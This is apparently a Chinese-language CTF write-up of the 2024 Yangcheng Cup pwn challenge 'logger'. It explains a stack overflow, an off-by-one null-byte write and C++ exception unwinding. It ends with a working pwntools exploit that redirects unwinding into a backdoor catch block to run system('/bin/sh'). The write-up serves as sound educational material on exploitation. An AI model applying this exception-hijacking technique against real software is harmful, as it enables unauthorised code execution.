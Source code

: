 ```yaml
---
title: 2024羊城杯logger
date: 2024-8-30
tags: 赛后诸葛亮
categories: ctf
---
```

# 前言
当时比赛我没看这题，在搞一个`houseofapple2`的`orw`，由于利用比较麻烦，以及我太菜没搞过类似`io的orw`，导致浪费太久时间。
火箭这次比赛爆上分，提供`TravelGraph`的思路同时砍下`logger和html`，tql！！
# 功能介绍
[题目附件](pwn)
## main
![main](main.png)
main函数很明确，一个菜单，两个功能`trace和warn`，由于ida的问题反汇编并不能看到c++的try和catch，下面这张图是汇编代码看到的try和catch
![asm_main_try](asm_main_try.png)
看到warn函数是在try里面的
![asm_main_catch](asm_main_catch.png)
然后是main函数对于异常的处理，没什么特别的，就是printf了一下，然后又会回到主循环中。
## warn
![warn_try](warn_try.png)
可以看到在warn函数中有大的栈溢出，我们或许可以用这个栈溢出来劫持程序流。
问题在于程序也有检查，如果输入字节仅仅大于10就会抛出异常。(以及warn函数中并没有对于这个try的catch处理，所以这个异常会回溯到上一步，由main中的catch处理)
## trace
![trace](trace.png)
在全局变量段读入数据，每次10字节。
可以发现图中绿色的一行上有一个强制在输入的字符串后面加上`'\x00'`，如果刚好输入0x10个字节则会导致不规范的越界写入`'\x00'`。

遍历的方式是在i属于[0,8]的情况下，如果*(char*)buf[0x10*i] == 0，认为这个未被使用过，就拿来给我们读0x10个字节

我们可以通过在`'Buffer Overflow'`前的一次输入选择输入十个字节，让`'Buffer Overflow'`的第一个字节被覆盖为0，就可以覆盖`'Buffer Overflow'`的前0x10个字节内容，不清楚有什么用，暂且按下不表。
![trace_overflow](trace_overflow.png)
## c++异常机制
c++关于异常的三个关键词，try，catch，throw。
```c++
try {
    file.open("aaa.txt");
    // 可能出现错误的代码放在try里面
    if (!file.is_open()) { throw FileOpenException("Failed to open file");}
    // 如果出现异常，就throw，并交给对应的catch去处理
} catch (...) {
    // 捕获所有的异常
    std::cerr << "Unknown exception caught." << std::endl;
}
```
catch也可以和try不同时出现，比如某个函数的只有try，而将所有异常交给父函数处理
这一点之所以可以做到是因为c++异常处理会沿着调用链逐层回溯，直到找到catch对错误进行处理为止。(或者是找不到对应的catch，那就会导致程序异常终止)
```c++
void performTask() {
    try {
        riskyOperation(); // 调用可能会抛出异常的函数
    } catch (const std::exception& e) {
        // 捕获并处理来自 riskyOperation 的异常
    }
}

void riskyOperation() {
    try {
        throw std::runtime_error("An error occurred in riskyOperation");
    }
}
```
# 题目思路
由于c++的异常回溯会沿着函数调用链往回找，那我们刚好又可以通过栈溢出覆盖函数返回地址，从而影响函数调用链。
也就是说，我们可以让该异常处理机制误以为他是从另外的某个try块(成为tryA块)调用过来的，应该去tryA块去寻找对应的catch机制
好巧不巧，程序plt段有个system，跟进之后发现了作者留给我们的后门catch块
![backdoor_catch](backdoor_catch.png)
其中有调用system函数，而system函数的参数正好是指向`'Buffer Overflow'`的指针。

那就思路很清晰了，我们只需通过trace函数覆盖`'Buffer Overflow'`为`'/bin/sh'`，然后覆盖warn函数返回地址为上图最上方的try地址。

不过还有一点值得注意，异常处理既然回到了父函数，那么也会恢复父函数的rbp。而如果能控制rbp的话，肯定还可以有一些别的操作，比如伪造变量，比如通过leaveret二次跳转等等。
# exp
```python
def trace(tosend: bytes):
    io.sendlineafter(b'****************', b'1')
    io.sendafter(b'details', tosend)
    io.sendlineafter(b'check', b'n')

def warn(tosend: bytes):
    io.sendlineafter(b'****************', b'2')
    io.sendafter(b'message', tosend)

for _ in range(7):
    trace(b'skip')
trace(b'a'*0x10)
trace(b'/bin/sh'.ljust(0xf, b'\0'))
payload = b'0'*0x70 + p64(0x404500) + p64(0x401BC4)
warn(payload)
io.interactive()
```


